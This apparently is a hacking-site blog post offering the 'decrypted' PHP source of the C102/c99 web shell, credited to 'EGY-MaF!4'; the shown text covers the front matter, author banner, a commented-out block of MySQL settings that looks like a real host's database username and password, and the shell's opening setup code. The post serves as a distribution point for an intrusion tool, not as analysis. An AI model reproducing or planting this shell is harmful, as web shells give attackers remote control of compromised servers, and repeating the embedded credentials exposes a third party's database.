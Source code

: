 ```yaml
---
id: 111
title: C102 Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=111
permalink: /c102-shell/
categories:
  - C102
  - C99
  - PHP
tags:
  - C102
  - C99
  - PHP
---
```

This is the decrypted version of the C102/c99 shell. By EGY-MaF!4

## C102Shell Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php 
/*
#################################################################
#                        EGY-MaF!4                              #
#################################################################
// C102Shell
// Coded By EGY-MaF!4
// Contact: v4r@w.cn
// Don't Hack Musllim & arabicSites 
*/
/*
//////////////////////////
// $mysql_use = "yes"; //"no"   //
// $mhost = "localhost";
// $muser = "beautij5_cmsadm";
// $mpass = "BP$ucc3$$";
// $mdb = "beautij5_cmsdb02";
/////////////////////////
*/
#################################################################
#                                                          EGY-MaF!4                                                                  #
#################################################################
// C102Shell
// Coded By EGY-MaF!4
// Don't Hack Musllim & arabicSites 
if (!function_exists("getmicrotime")) {function getmicrotime() {list($usec, $sec) = explode(" ", microtime()); return ((float)$usec + (float)$sec);}} 
error_reporting(5); 
@ignore_user_abort(TRUE); 
@set_magic_quotes_runtime(0); 
$win = strtolower(substr(PHP_OS,0,3)) == "win"; 
define("starttime",getmicrotime()); 
if (get_magic_quotes_gpc()) {if (!function_exists("strips")) {function strips(&$arr,$k="") {if (is_array($arr)) {foreach($arr as $k=&gt;$v) {if (strtoupper($k) != "GLOBALS") {strips($arr["$k"]);}}} else {$arr = stripslashes($arr);}}} strips($GLOBALS);} 